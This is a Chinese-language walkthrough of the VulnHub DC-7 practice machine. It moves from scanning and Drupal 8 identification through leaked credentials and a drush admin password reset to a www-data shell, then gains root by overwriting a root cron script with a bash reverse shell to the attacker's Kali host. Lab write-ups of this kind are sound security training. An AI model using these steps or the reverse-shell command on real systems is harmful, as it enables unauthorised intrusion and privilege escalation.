 ## DC-7 : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| DC-7          | `192.168.1.103` |

### 扫描端口和版本信息

`nmap -A 192.168.1.103`

![1](../src/vulnhub/dc_7/1.png)

### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **Drupal 8** CMS

![2](../src/vulnhub/dc_7/2.png)

经过 OSINT 搜索得知该版本存在 **RCE** 漏洞，但是测试时并不能成功（现在看来原因是不支持 PHP）。此外作者提示我们不要用暴力破解和字典攻击，而是思考该虚拟机之外的东西，说的明白点，就是进行外网信息收集

> 谁知道我发现 `@DC7USER` 这串字符的重要性花了多久，╯︿╰

```
If you need to resort to brute forcing or dictionary attacks, you probably won't succeed.

What you will need to do, is to think "outside" of the box.
```

![3](../src/vulnhub/dc_7/3.png)

在该项目的 *config.php* 文件中存在一个用户名和密码：`dc7use:MdR3xOgB7#dW`。于是使用该账户进行 ssh 登录后，发现 *mbox* 文本文件

![4](../src/vulnhub/dc_7/4.png)

根据文本信息，我们知道 root 账户的 `cron` 定时任务会定时运行 `/opt/scripts/backups.sh` 脚本

![5](../src/vulnhub/dc_7/5.png)

不过通过查看该文本权限知道当前用户不具备写能力，并且该文件的用户组是 *www-data*，因此我们下一步就是切换到 *www-data* 用户组里的用户，然后修改该脚本，这样 root 账户下的定时任务就会执行该脚本

由于系统不存在 `adduser` 工具导致新建账户的方法不可行，那么就只有修改 *www-data* 账户的密码，因此使用系统中的 `drush`这一工具修改密码（查看环境变量）

`drush user-password admin --password="isdof123"`

![6](../src/vulnhub/dc_7/6.png)

使用 *admin* 账户密码登录 Drupal 后台。尝试过上传图片马，不过发现不支持 PHP，那么接下来我们可以安装 [PHP 模块](
https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz)

![7](../src/vulnhub/dc_7/7.png) 



![8](../src/vulnhub/dc_7/8.png)



![9](../src/vulnhub/dc_7/9.png)

### Getshell

既然已经安装好PHP模块，并且启用了该模块，那么我们就可以新建 php 文件，而不必上传图片马

![10](../src/vulnhub/dc_7/10.png)

同时在 Kali 上监听 **7788** 端口，于是我们就可以拿到 *www-data* 的 shell 

![11](../src/vulnhub/dc_7/11.png)

### 提权

之后执行命令修改 *backups.sh* 脚本

`echo "bash -c 'bash -i >& /dev/tcp/192.168.1.112/7788 0>&1' " > /opt/scripts/backups.sh`

等待一段时间就可以取得 root 权限

![12](../src/vulnhub/dc_7/12.png)

